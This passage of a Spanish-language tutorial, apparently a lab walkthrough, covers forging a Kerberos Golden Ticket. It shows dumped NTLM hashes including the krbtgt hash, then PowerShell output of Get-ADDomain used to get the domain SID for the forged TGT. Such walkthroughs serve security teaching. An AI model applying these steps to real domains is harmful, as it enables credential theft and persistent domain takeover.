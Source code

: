 ```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f6f27ccbcb235da4602454dff0efb47:::
empleado1:1104:aad3b435b51404eeaad3b435b51404ee:1791df33b45987df23e4fe6c57ea6de7:::
empleado2:1105:aad3b435b51404eeaad3b435b51404ee:8a499ecf99c5e069d0458e283a4b6e89:::
corp.local\maurine.bibby:1112:aad3b435b51404eeaad3b435b51404ee:d82921ed22040dd71155e8a03243313c:::
..............................<RESTO_CODIGO>.......................................
```

Vemos que hemos obtenido el `hash` del usuario que queremos:

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3f6f27ccbcb235da4602454dff0efb47:::
```

De todo esto el que nos va a interesar es el `hash NTLM` que seria el siguiente:

```
3f6f27ccbcb235da4602454dff0efb47
```

Ahora vamos a ejecutar el siguiente comando para montarnos nuestro propio `TGT` de la siguiente forma:

Pero claro antes deberemos de obtener el `SID` que es muy sencillito, con el modulo de `AD` en un equipo cualquiera lo podremos obtener, poniendo lo siguiente:

```powershell
Get-ADDomain
```

Info:

```
AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=corp,DC=local
DeletedObjectsContainer            : CN=Deleted Objects,DC=corp,DC=local
DistinguishedName                  : DC=corp,DC=local
DNSRoot                            : corp.local
DomainControllersContainer         : OU=Domain Controllers,DC=corp,DC=local
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-3352250647-938130414-2449934813
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=corp,DC=local
Forest                             : corp.local
InfrastructureMaster               : DC01.corp.local
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {cn={410CF9DA-E128-4646-B131-688DF0C8538D},cn=policies,cn=system,DC=corp,DC=local,
                                      CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=corp,DC=local}
LostAndFoundContainer              : CN=LostAndFound,DC=corp,DC=local
ManagedBy                          :
Name                               : corp
NetBIOSName                        : CORP
ObjectClass                        : domainDNS
ObjectGUID                         : a72d122a-d459-40c5-a96b-8ef515bee704
ParentDomain                       :
PDCEmulator                        : DC01.corp.local
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=corp,DC=local
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {DC01.corp.local}
RIDMaster                          : DC01.corp.local
SubordinateReferences              : {DC=ForestDnsZones,DC=corp,DC=local, DC=DomainDnsZones,DC=corp,DC=local,
                                     CN=Configuration,DC=corp,DC=local}
SystemsContainer                   : CN=System,DC=corp,DC=local
UsersContainer                     : CN=Users,DC=corp,DC=local
```
